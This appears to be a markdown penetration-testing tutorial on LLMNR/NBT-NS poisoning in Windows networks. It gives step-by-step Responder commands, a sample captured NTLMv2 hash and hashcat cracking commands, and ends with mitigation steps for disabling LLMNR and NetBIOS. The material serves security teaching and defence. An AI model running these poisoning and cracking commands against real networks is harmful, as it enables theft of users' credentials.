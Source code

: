 [Article](https://predatech.co.uk/llmnr-nbt-ns-poisoning-windows-domain-environments/)

* **Port 137** is used by the **NetBIOS Name Service (NBT-NS)**
* **Link-Local Multicast Name Resolution (LLMNR)** and **NetBIOS Name Service (NBT-NS)** are two backup name resolution protocols used by windows machines when DNS resolution fails. These services are enabled by default on modern windows systems

---

### How Name Resolution Happens

1. **Check localhost** - Is the name of computer itself?
2. **Hosts File** = Is it in ``C:\Windows\System32\drivers\etc\hosts``?
3. **DNS Server** - Ask the configured DNS server
4. **LLMNR Query** - Broadcast an LLMNR request to all local hosts
5. **NBT-NS Query** - Broadcast a NetBIOS request to all local hosts.

---

### How LLMNR and NBT-NS Poisoning Works

Attackers can abuse LLMNR/NBT-NS because when these requests are broadcasted, **any machine** can reply with an answer - even if it is a rogue (attacker-controlled) machine

If an attacker responds **quickly enough**, the victimcomputer believes the attacker's IP is the correct destination. This allows the attacker to:

* capture **authentication hashes**
* Perform **Man-in-the-Middle(MITM)** attack

---

### Step by Step : Performing LLMNR/NBT-NS Poisoning with responder

**Step 1. Install and Run Responder**

Install Responder:

* pip install orderreddict # for Python 2.x dependency

```bash
apt install responder
```

check responder version:

```bash
responder --help
```

```bash
responder --version
```

Run responder:

```bash
responder -I eth0 -dvw
```

* ``-I eth0`` -> Network interface
* ``-d`` -> Poisoning mode
* ``-v`` -> verbose mode
* ``-w`` -> Enable WinProxy detection

Alternatively, clone it manually

```bash
git clone https://github.com/SpiderLabs/Responder.git
```

```bash
python2.7 Responder.py --help
```

```bash
python2.7 Responder.py --version
```

```bash
python2.7 Responder.py -I eth0 -rdvw
```

**Step 2. Trigger a Name Resolution Attempt**

On the target windows machine:

```cmd
ping s1.local -t
```

Or access non existent resource

```cmd
\\s1.local
```

* Your attacker machine's IP will respond (example ``\\192.168.29.218``)


**Step 3. Capture the NTLMv2 Hash**

When the victim tries to authenticate, Responder captures an **NTLMv2 Hash**:

```cmd
[HTTP] NTLMv2 Hash :    ash::POKEMON:1122334455667788:dwednuhjhd8w88yqwd0qwu:...
```


**Step 4. Crack the NTLMv2 Hash**

Identify the hash format:

```bash
hashid <hash>
```

Result ``NetNTLMv2 [Hashcat Mode: 5600]``

```bash
hashcat -m 5600 ash-hash.txt /opt/rockyou.txt
```

---

### How to prevent this attack

#### Disable LLMNR (via Group Policy)

1. Open **Group Policy Management** on the Domain Controller
2. create a new GPO (name it "LLMNR Disables")
3. Edit the GPO:
   * Navigate : ``Computer Configuration -> Policies -> Administrative Templates -> Network -> DNS Client``
   * Double click : Turn off multicast name resolution
   * Set to **enabled** 
4. Apply and close


#### Disable NBT-NS (NetBIOS over TCP/IP)

1. Goto ``Control Panel -> Network and Sharing Center -> Change Adapter Settings``
2. Right Click active network interface -> **Properties**
3. Double-Click ``Internet Protocol Version 4 (TCP/IPv4).
4. Click **Advanced** -> **WINS** tab
5. Select **Disable NetBIOS over TCP/IP** -> **OK**